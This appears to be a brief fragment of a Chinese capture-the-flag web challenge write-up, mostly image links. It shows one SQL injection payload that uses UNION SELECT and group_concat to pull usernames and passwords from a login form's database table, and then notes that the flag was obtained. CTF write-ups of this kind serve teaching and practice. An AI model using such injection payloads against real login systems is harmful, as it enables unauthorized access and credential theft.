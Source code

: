 ![image-20231101001306548](CTF(WEB)image/image-20231101001306548.png)

username=1'union select 1,2,group_concat(username,password) from l0ve1ysq1 -- -&password=1

![image-20231101001336630](CTF(WEB)image/image-20231101001336630.png)

拿到flag

![image-20231101001353423](CTF(WEB)image/image-20231101001353423.png) 

